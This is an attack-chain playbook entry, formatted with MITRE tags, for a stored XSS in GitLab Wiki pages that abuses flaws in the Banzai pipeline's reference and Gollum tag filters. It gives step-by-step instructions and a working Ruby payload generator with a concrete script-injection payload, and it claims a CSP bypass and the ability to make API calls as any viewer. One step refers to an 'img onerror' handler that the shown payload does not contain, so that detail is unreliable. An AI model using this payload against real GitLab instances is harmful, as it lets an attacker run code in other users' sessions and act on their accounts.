

---
tags:
  - xss
  - stored-xss
  - gitlab
  - wiki
  - injection
  - csp-bypass
type: attack_chain
tools:
  - '[[tools/Nokogiri]]'
  - '[[tools/Sanitize]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Create-GitLab-Project-and-Wiki-Page]]'
  - '[[procedures/Inject-Crafted-XSS-Payload-in-Wiki]]'
  - '[[procedures/Trigger-and-Execute-Stored-XSS]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:52:55.497Z'
description: >-
  Multi-stage attack exploiting stored XSS in GitLab Wiki pages through flaws in
  the Banzai pipeline's AbstractReferenceFilter and GollumTagsFilter, enabling
  arbitrary JavaScript execution with CSP bypass.
skill_level: intermediate
impact_level: high
id: 6b974834-70ab-4ace-ab2d-71ed4dd8e99e
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Stored XSS in GitLab Wiki via Banzai Pipeline Reference Filter

Multi-stage attack chain demonstrating exploitation of a stored XSS vulnerability in GitLab's Wiki pages. The attack leverages partial pattern matching in the Banzai pipeline's AbstractReferenceFilter, allowing multiple gsub replacements that inject HTML into alt attributes. Combined with quote breaking using &quot; entities and unsanitized href from GollumTagsFilter, this enables HTML injection. Browsers' HTML5 parsing quirks differ from Nokogiri's HTML4 parsing, tolerating malformed tags like '/' separators, leading to JavaScript execution such as alert(document.domain). The stored nature allows any viewer to execute the payload, enabling RESTful API calls on their behalf with CSP bypass.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser (e.g., Chrome for HTML5 parsing)
- Ruby environment for payload generation

### Target Environment

- GitLab instance (self-hosted or SaaS)
- Wiki feature enabled
- User account with project creation permissions

### Initial Access Requirements

- Valid GitLab credentials
- Network access to GitLab instance
- No prior access needed beyond authentication

## Detailed Attack Procedures

### Step 1: Project and Wiki Setup
procedure: [[procedures/Create-GitLab-Project-and-Wiki-Page]]

**Objective**: Establish a project and wiki page to host the malicious content.

**Instructions**: Log in to GitLab, create a new project, and set up the wiki by creating the '_sidebar' page.

**Expected Output**: A new wiki page ready for content injection.

**Success Indicators**:
- Project created successfully
- Wiki page form accessible

### Step 2: Payload Injection
procedure: [[procedures/Inject-Crafted-XSS-Payload-in-Wiki]]

**Objective**: Generate and insert the crafted Markdown payload into the wiki content to exploit the filter flaws.

**Instructions**: Use the [[commands/generate-xss-payload]] Ruby script to create the payload, then paste it into the wiki content field with title '_sidebar'.

For example, run the payload generator:

```ruby
def gen_payload( payload, based_url:"https://gitlab.com/gitlab-org/gitlab/-/issues/428268")
  payload ="#{payload}#{based_url}"unless payload.include? based_url
  payload = payload.gsub('<','&lt;').gsub('>','&gt;')

  es_payload =%(\<i\><a href="http:#{ payload.gsub('"','&quot;')}" class="gfm">a</a></i>)
  es_payload =CGI.escape_html( es_payload ).gsub('%20','%2520')#double encode space/tab/new_line

  a =%(\<dl\><a href="#{ based_url }#{ es_payload }">#{ based_url }\*<i>\[[a|http:#{ payload }]\]</i></a></dl>)
  puts a
end

gen_payload %('"><svg><style>dl{visibility:hidden}<i/class=gl-show-field-errors><input/title="<script>alert(document.domain)</script>"/></style></svg>')
```

Copy the output into the wiki content and save.

**Expected Output**: Payload saved in wiki; no immediate errors.

**Success Indicators**:
- Page saves without validation errors
- Source code shows injected references

### Step 3: Trigger and Execute XSS
procedure: [[procedures/Trigger-and-Execute-Stored-XSS]]

**Objective**: Reload the page to process the payload through the Banzai pipeline and execute JavaScript in the victim's browser.

**Instructions**: Reload the wiki page. The browser will parse the mutated HTML, executing the onerror handler in the injected img tag.

**Expected Output**: Alert box with document.domain or arbitrary JS execution.

**Success Indicators**:
- JavaScript alert triggers
- Console shows executed code
- API calls possible via dev tools

## Attack Chain Summary

### Key Achievements

1. Bypassed CSP and filters for stored XSS
2. Exploited parsing differences between Nokogiri and browser
3. Enabled arbitrary JS execution for any wiki viewer

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
